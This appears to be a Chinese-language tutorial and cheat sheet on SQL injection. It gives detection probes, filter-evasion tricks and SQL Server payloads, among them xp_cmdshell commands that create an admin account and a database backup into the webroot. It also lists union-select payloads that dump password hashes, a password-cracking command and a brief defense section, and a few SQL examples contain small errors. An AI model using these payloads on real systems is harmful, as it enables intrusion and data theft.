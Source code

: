 - [SQL Injection](#sql-injection)
  - [Overview](#overview)
  - [漏洞探测](#%E6%BC%8F%E6%B4%9E%E6%8E%A2%E6%B5%8B)
    - [整型参数](#%E6%95%B4%E5%9E%8B%E5%8F%82%E6%95%B0)
    - [字符串参数](#%E5%AD%97%E7%AC%A6%E4%B8%B2%E5%8F%82%E6%95%B0)
    - [特殊情况处理](#%E7%89%B9%E6%AE%8A%E6%83%85%E5%86%B5%E5%A4%84%E7%90%86)
  - [常用 SQL Injection 语句](#%E5%B8%B8%E7%94%A8-sql-injection-%E8%AF%AD%E5%8F%A5)
  - [防范方法](#%E9%98%B2%E8%8C%83%E6%96%B9%E6%B3%95)

# SQL Injection 

## Overview

SQL Injection 以 Web database 为目标，一般利用 web 应用程序对特殊字符串过滤不完全的缺陷，通过精心构造的字符串达到非法访问 web database 内容或在 database 中执行命令的目的；

由于 SQL Injection 易学易用，致使 SQL Injection 成为 OWASP 公布的十大 web 安全漏洞之首；

## 漏洞探测

一般情况下，只要是带有参数的动态网页，那么就可能存在 SQL Injection 漏洞；

下边以 http://xxx.xxx/index.asp?id=YY 为例：
### 整型参数
当参数 YY 为整型时，网页通常所使用的 SQL 语句如下：
```sql
SELECT * FROM table_name WHERE col_name = YY
```
因此可使用以下语句进行探测，若三种情况全都满足，则足以推断 index.asp 中一定存在 SQL Injection 漏洞：
- 附加一个单引号“'”，即“http://xxx.xxx/index.asp?id=YY'”    
  测试结果为网页运行异常；

- 附加字符串“ and 1=1”，即“http://xxx.xxx/index.asp?id=YY and 1=1”    
  测试结果为网页运行正常，与原运行结果相同；

- 附加字符串“ and 1=2”，即“http://xxx.xxx/index.asp?id=YY and 1=2”    
  测试结果为网页运行异常；

### 字符串参数

当输出参 YY 数为字符串时，网页通常所使用的 SQL 语句如下：
```sql
SELECT * FROM table_name FROM col_name WHERE p = 'YY'
```
因此可使用以下语句进行探测，若三种情况全都满足，则足以推断 index.asp 中一定存在 SQL Injection 漏洞：
- 附加一个单引号“'”，即 “http://xxx.xxx/index.asp?p=YY'”    
  此时 SQL 语句变成：
  ```sql
  SELECT * FROM table_name WHERE col_name = 'YY''
  ```
  因此，运行结果异常；

- 附加字符串“' and '1'='1”，即 “http://xxx.xxx/index.asp?p=YY' and '1'='1”       
  此时 SQL 语句变成：
  ```sql
  SELECT * FROM table_name WHERE col_name = 'YY' and '1'='1'
  ```
  因此，运行结果应与原结果相同；

- 附加字符串“' and '1'='2”，即 “http://xxx.xxx/index.asp?p=YY' and '1'='2”       
  此时 SQL 语句变成：
  ```sql
  SELECT * FROM table_name WHERE col_name = 'YY' and '1'='2'
  ```
  因此，运行结果异常；

### 特殊情况处理

若 web 开发者在程序中做了一些 SQL Injection 的防范措施，如过滤掉单引号等敏感字符，可采取以下方法进行尝试：

- 大小写混合    
  由于 VBS 不区分大小写，而 web 开发者在过滤时通常要么全部过滤大写，要么全部过滤小写，而大小写混合的写法往往会被忽视，如：使用 `SelecT` 代替 `SELECT` 或 `select`；
- Unicode    
  可以将要输入的字符串转化为 Unicode 字符串再进行输入，如 “+” = “%2B”， 空格 = “%20” 等；
- ASCⅡ    
  可以将要输入的字符串转化为 Unicode 字符串再进行输入，如 “U” = chr(85)， a = chr(97) 等；

## 常用 SQL Injection 语句

在 SQL Injection 的探测和利用过程中，需要在 URL 中添加能够执行的 SQL 语句，以下为常用的 URL 附加 SQL Injection 语句（针对 SQL Server）：

- http://xxx.xxx/index.asp?p=YY and user_name()='dbo'     
  网页运行异常，可以得到当前连接数据库的用户名；     
  若将“user_name()='dbo'” 改为 “and (select user_name())>0”则可获取当前系统的连接用户；

- http://xxx.xxx/index.asp?p=YY and(select db_name())>0     
  网页运行异常，可以得到当前连接的数据库名；   
  若服务器端关闭了错误信息显示，则无法获取相关信息；

- http://xxx.xxx/index.asp?p=YY;exec master..xp_cmdshell' net user aaa bbb /add '--     
  添加一个操作系统用户 aaa，密码为 bbb；
  master 是 SQL Server 的主数据库；   
  “--”可以注释掉后边的字符串，保证特殊构造的 SQL 语句能够正确执行；

- http://xxx.xxx/index.asp?p=YY;exec master..xp_cmdshell' net localgroup administrators aaa /add '--     
  将刚刚添加的用户 aaa 加入到管理员用户组中；

- http://xxx.xxx/index.asp?p=YY;backup database 数据库名 to disk='c:\inetpub\wwwroot\save.db'     
  将数据库内容全部拷贝到指定目录下，即 wwwroot，以便进一步通过 HTTP 将 db 数据文件下载到本地；

- http://xxx.xxx/index.asp?p=YY and(select @@version)>0     
  用于获取 SQL Server 版本号；



```
# Basic Injection
1
1' and '1'='1
1' and '1'='2

# Display All Records
%' or '1'='1

# Display Database Version
%' union select null, version() #

# Display Database User
%' union select null, user() #

# Display Database Name
%' union select null, database() #

# Display all tables in information_schema
%' union select null, table_name from information_schema.tables #

# Display all the user tables in information_schema
# % -- wildcard
%' union select null, table_name from information_schema.tables where table_name like 'user%' #

# Display all the columns fields in the information_schema user table
# 0x0a -- new line
%' union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #

# Display all the columns field contents in the information_schema user table
%' union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #

#Crack Weak Passwords Using John
john -format=raw-MD5 dvwa-pass.txt

```


## 防范方法

 - SQL Injection 探测的过程中，需要提交包含“;”、“--”、“select”、“union”、“update”、“add” 等字符串构造的SQL语句，因此防范 SQL Injection 最有效的方法是对用户的任何输入进行检测和过滤，确保用户输入数据的安全性；
 - 在构造动态 SQL 语句，要使用类安全的参数编码机制；
 - 禁止将敏感数据以明文形式存放在数据库中，以减小泄露重要机密的风险；
 - 遵循最小权限原则，只给访问数据库的web应用附以最低的权限，以提高安全性；



